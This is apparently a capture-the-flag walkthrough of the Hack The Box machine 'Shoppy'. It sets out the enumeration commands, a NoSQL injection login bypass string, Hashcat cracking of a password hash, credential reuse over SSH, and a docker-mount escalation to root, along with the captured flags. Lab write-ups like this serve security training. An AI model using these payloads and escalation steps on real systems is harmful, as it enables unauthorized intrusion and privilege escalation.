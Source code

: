 ![Shoppy.PNG](/assets/Shoppy/shoppy.jpg)


1. Send an ICMP echo request to machine's IP address.
```bash
┌──(root㉿est)-[/home/kali]
└─| ping -c 2 10.10.11.180
```


2. Scan open ports with **nmap**.
```bash
┌──(root㉿kali)-[/home/kali]
└─| nmap -p- --open -vv -sS --min-rate 5000 -Pn -n 10.10.11.180
```

**Output**
```bash
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
9093/tcp open  copycat
```

3. Host a machine in `/etc/hosts`
   
![Shoppy-hosts.PNG](/assets/Shoppy/shoppt-hosts.PNG)

4. Web Page
![Shopyy-web.PNG](/assets/Shoppy/shoppy-web.PNG)


5. Use **gobuster** to find directories
```bash
┌──(root㉿est)-[/home/kali/Desktop/Shoppy]
└─| gobuster dir -u http://shoppy.htb -w /usr/share/seclists/Discovery/Web-Content/common.txt
```

**Output**
```bash
/ADMIN                (Status: 302) [Size: 28] [--> /login]
/Admin                (Status: 302) [Size: 28] [--> /login]
/Login                (Status: 200) [Size: 1074]           
/admin                (Status: 302) [Size: 28] [--> /login]
/assets               (Status: 301) [Size: 179] [--> /assets/]
/css                  (Status: 301) [Size: 173] [--> /css/]   
/exports              (Status: 301) [Size: 181] [--> /exports/]
/favicon.ico          (Status: 200) [Size: 213054]             
/fonts                (Status: 301) [Size: 177] [--> /fonts/]  
/images               (Status: 301) [Size: 179] [--> /images/] 
/js                   (Status: 301) [Size: 171] [--> /js/]     
/login                (Status: 200) [Size: 1074]  
```

6. Do **No Sql Injection Attack** --- `admin'||'1==1`
7. In Search option write `admin` and `josh`
![Shoppy-admin.PNG](/assets/Shoppy/shoppy-admin.PNG)
![Shoppy-josh.PNG](/assets/Shoppy/shoppy-josh.PNG)

8. Crack with **Hashcat** Josh's password
```bash
┌──(root㉿est)-[/home/kali/Desktop/Shoppy]
└─| hashcat -m 0 jhon.txt ../rockyou.txt
```   
  
```bash        
┌──(root㉿est)-[/home/kali/Desktop/Shoppy]
└─# hashcat -m 0 jhon.txt --show        
6ebcea65320589ca4f2f1ce039975995:remembermethisway
```

9. Use **gobuster** again to search vhosts
```bash
┌──(root㉿est)-[/home/kali/Desktop/Shoppy]
└─| gobuster vhost -u http://shoppy.htb -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -t 50
```

**Output**
```bash
Found: mattermost.shoppy.htb (Status: 200) [Size: 3122]
```

10. Put vhost found in `/etc/hosts`
    
![Shoppy-vhost.PNG](/assets/Shoppy/shoppy-vhost.PNG)

11. Visit the vhost found and put credentials of **Josh**
12. Look on **Channel** > **Deploy Machine**

![Shoppy-mattermost.JPG](/assets/Shoppy/shoppy-mattermost.PNG)

13. Connect to ssh with user jaeger
```bash
┌──(root㉿est)-[/home/kali/Desktop/Shoppy]
└─| ssh jaeger@10.10.11.180
```

14. In current directory cat a **user flag**
```bash
jaeger@shoppy:~$ cat user.txt
8338caad7b4679f8c1d95b68f15aa6c5
```

15. Use sudo -l to find some important files or binaries to exploit
```bash
jaeger@shoppy:~/Desktop$ sudo -l
[sudo] password for jaeger: 
Matching Defaults entries for jaeger on shoppy:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jaeger may run the following commands on shoppy:
    (deploy) /home/deploy/password-manager
```

16. cat `/home/deploy/password-manager` and find this lines
```bash
Welcome to Josh password manager!Please enter your master password: SampleAccess granted!
```

17. Run **password-manager** and put 'Sample'
```bash
jaeger@shoppy:/home/deploy$ sudo -u deploy /home/deploy/password-manager
Welcome to Josh password manager!
Please enter your master password: Sample
Access granted! Here is creds !
Deploy Creds :
username: deploy
password: Deploying@pp!
```

18. Connect to ssh with new credentials
```bash
┌──(root㉿est)-[/home/kali/Desktop/Shoppy]
└─| ssh deploy@10.10.11.180
```

19. Spawn a `/bin/bash`
```bash
$ python3 -c "import pty; pty.spawn('/bin/bash')"
```

**Output**
```bash
deploy@shoppy:~$ 
```


20. If you look the message of **Josh** he tell let's use docker to deploy a machine
![Shoppy-message.PNG](/assets/Shoppy/shoppy-message.PNG)

21. To get access how root use **https://gtfobins.github.io/** and search **docker**
![Shoppy-gtfo.PNG](/assets/Shoppy/shoppy-gtfo.PNG)


22. Run the command
```bash
deploy@shoppy:~$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
# whoami
root
```

23. Cat a **root flag**
```bash
# cd root
# cat root.txt
77845f37157645868120f6d66120bed6
```